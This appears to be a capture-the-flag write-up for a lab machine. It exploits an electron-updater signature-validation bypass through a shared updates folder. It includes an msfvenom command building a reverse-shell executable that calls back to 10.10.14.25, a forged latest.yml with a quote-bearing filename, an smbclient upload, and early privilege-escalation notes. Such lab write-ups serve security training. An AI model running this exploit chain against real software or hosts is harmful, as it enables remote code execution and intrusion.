 #### Idea:
- Updates folder of Heed is shared, which means we can pass any version updates on it.

#### Google _"electron builder heedv1.0 exploit"_:
- [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) seems perfect as an exploit. 
It uses Signature Validation Bypass in the update and runs any binary provided.

> _"During a software update, the application will request a file named latest.yml from the update server, which contains the definition of the new release - including the binary filename and hashes."_

> _Since the ${tempUpdateFile} variable is provided unescaped to the execFile utility, an attacker could bypass the entire signature verification by triggering a parse error in the script. This can be easily achieved by using a filename containing a single quote and then by recalculating the file hash to match the attacker-provided binary._

#### Requirements of update (latest.yml):
- Definition of the new release (Version greater than the current v1.0 )
- Binary filename (contains a single quote for triggering parse error and bypassing signature verification)
- Binary hash (calculated with `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`)

## Exploitation
- Generate a reverse-shell spawning binary with msfvenom:
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f exe -o e\'xploit.exe                                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: e'xploit.exe
```
- Calculate binary hash:
```bash
$ shasum -a 512 e\'xploit.exe | cut -d " " -f1 | xxd -r -p | base64
Xv/cUPTmEAbue35veKzAKZTo3Gsm7NiNyNvgRHB465kFjWNvRLFs1wodNLe431tfvpHK3WVivpvoe1bK015g7A==
```
- latest.yml file looks like:
```yaml
version: 1.2.3
path: http://10.10.14.25/e'xploit.exe
sha512: Xv/cUPTmEAbue35veKzAKZTo3Gsm7NiNyNvgRHB465kFjWNvRLFs1wodNLe431tfvpHK3WVivpvoe1bK015g7A==
```
- Upload latest.yml onto the share:
```bash
$ smbclient -N //10.10.10.237/Software_Updates -c 'cd client1;put latest.yml;ls'
putting file latest.yml as \client1\latest.yml (0.5 kb/s) (average 0.5 kb/s)
  .                                   D        0  Sat Jul  3 03:12:51 2021
  ..                                  D        0  Sat Jul  3 03:12:51 2021
  latest.yml                          A      152  Sat Jul  3 03:17:13 2021

                4413951 blocks of size 4096. 1353857 blocks available
```
- Setup listener and get reverse shell as `atom\jason`.
# Privesc
- Running winpeas gave us no critical vulnerabilities to exploit.
- Redis database server running at port 6379.
- Jason's downloads folder contains some important data.
### Redis Database server 